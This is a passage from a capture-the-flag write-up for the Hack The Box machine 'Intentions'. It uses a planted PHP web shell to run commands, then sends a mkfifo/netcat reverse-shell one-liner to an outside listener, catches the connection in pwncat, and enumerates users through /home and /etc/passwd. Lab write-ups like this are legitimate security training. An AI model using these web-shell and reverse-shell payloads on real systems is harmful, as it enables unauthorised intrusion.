 Sending this request creates a shell at `http://<IP>/storage/shell.php`, which can gives the ability to execute remote commands using the `cmd` parameter.

```bash
> http -pb intentions.htb/storage/shell.php cmd==id
caption:uid=33(www-data) gid=33(www-data) groups=33(www-data)
 CAPTION 120x120 120x120+0+0 16-bit sRGB 2.960u 0:02.962
```

Using a reverse shell payload, got a shell as `www-data`

```bash
> http -pb intentions.htb/storage/shell.php cmd=='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 9005 >/tmp/f'
```

```bash
> pc -lp 9005
[03:16:33] Welcome to pwncat 🐈!                                                                    __main__.py:164
[03:16:40] received connection from 10.10.11.220:42804                                                   bind.py:84
[03:16:41] 0.0.0.0:9005: upgrading from /usr/bin/dash to /usr/bin/bash                               manager.py:957
[03:16:42] 10.10.11.220:42804: registered new host w/ db                                             manager.py:957
(local) pwncat$
(remote) www-data@intentions:/var/www/html/intentions/storage/app/public$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Shell as greg

---

Based on the contents of the `/home` directory and `/etc/passwd` there are two other user with login shells, `legal` and `greg`.

```bash
(remote) www-data@intentions:/var/www/html/intentions$ ls -la /home/
total 20
drwxr-xr-x  5 root   root   4096 Jun 10 14:56 .
drwxr-xr-x 18 root   root   4096 Jun 19 13:34 ..
drwxr-x---  4 greg   greg   4096 Jul 14 09:28 greg
drwxr-x---  4 legal  legal  4096 Jun 19 13:09 legal
drwxr-x---  4 steven steven 4096 Jun 19 13:09 steven
(remote) www-data@intentions:/var/www/html/intentions$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
steven:x:1000:1000:steven:/home/steven:/bin/bash
greg:x:1001:1001::/home/greg:/bin/sh
legal:x:1002:1002:,,,:/home/legal:/bin/bash
```

A `.gitignore` file exists in the public directory, indicating there's a git repo somewhere.
